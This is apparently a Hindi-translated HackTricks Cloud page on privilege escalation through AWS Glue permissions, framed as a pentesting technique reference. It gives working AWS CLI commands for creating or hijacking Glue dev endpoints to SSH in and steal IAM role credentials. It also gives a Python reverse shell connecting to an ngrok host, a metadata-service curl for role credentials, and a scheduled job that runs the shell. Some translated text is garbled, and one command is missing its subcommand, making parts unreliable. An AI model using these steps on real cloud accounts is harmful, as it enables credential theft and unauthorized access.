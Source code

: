 # AWS - Glue Privesc

{% hint style="success" %}
एडब्ल्यूएस हैकिंग सीखें और प्रैक्टिस करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और प्रैक्टिस करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सब्सक्रिप्शन योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** को** **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github रेपो में।**

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

उन उपयोगकर्ताओं के पास ये अनुमतियाँ होती हैं जो **नए AWS Glue डेवलपमेंट एंडपॉइंट सेटअप** कर सकते हैं, इस एंडपॉइंट को **एक मौजूदा सेवा रोल जो Glue द्वारा अस्स्यूम किया जा सकता है** के साथ विशेष अनुमतियों के साथ निर्धारित कर सकते हैं।

सेटअप के बाद, **हमलावताओं को एंडपॉइंट के इंस्टेंस में SSH करने की अनुमति होती है**, और निर्धारित रोल के IAM क्रेडेंशियल्स चुरा सकते हैं:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
गुप्तता के उद्देश्य से, सुझाव दिया जाता है कि Glue वर्चुअल मशीन के अंदर से IAM क्रेडेंशियल का उपयोग किया जाए।

**संभावित प्रभाव:** निर्दिष्ट गोंदन सेवा भूमिका को उन्नत करना।

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

इस अनुमति वाले उपयोगकर्ता **एक मौजूदा Glue विकास** अंत-बिंदु की SSH कुंजी को **संशोधित कर सकते हैं**, **इसके लिए SSH पहुंच को सक्षम करते हैं**। यह हमलावर को अंत-बिंदु के संलग्न भूमिका की विशेषाधिकारों के साथ कमांडों को क्रियान्वित करने की अनुमति देता है:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**संभावित प्रभाव:** ग्लू सेवा भूमिका तक प्राइवेसीकरण।

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

**`iam:PassRole`** के साथ उपयोगकर्ता या तो **`glue:CreateJob` या `glue:UpdateJob`**, और या तो **`glue:StartJobRun` या `glue:CreateTrigger`** के साथ संयुक्त रूप से, **AWS Glue जॉब बना सकते हैं या अपडेट कर सकते हैं**, किसी भी **Glue सेवा खाता** को संलग्न करके, और जॉब के क्रियान्वयन को प्रारंभ कर सकते हैं। जॉब की क्षमताएँ विविध Python कोड चलाने को शामिल हैं, जिसे एक रिवर्स शैल एस्टाब्लिश करने के लिए उत्पादित किया जा सकता है। इस रिवर्स शैल का उपयोग फिर ग्लू जॉब से जुड़े भूमिका के **IAM क्रेडेंशियल** को बाहरी करने के लिए किया जा सकता है, जो उस भूमिका की अनुमतियों पर आधारित अनधिकृत पहुंच या क्रियाएँ करने की संभावना ले जाता है:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**संभावित प्रभाव:** निर्दिष्ट गोंद सेवा भूमिका को उन्नत करना।

### `glue:UpdateJob`

केवल अपडेट अनुमति के साथ एक हमलावर IAM प्रमाणिका को पहले से जुड़ी भूमिका की IAM प्रमाणिका चुरा सकता है।

**संभावित प्रभाव:** जोड़ सेवा भूमिका संलग्न करना।

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** का पालन करें**।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
{% endhint %}

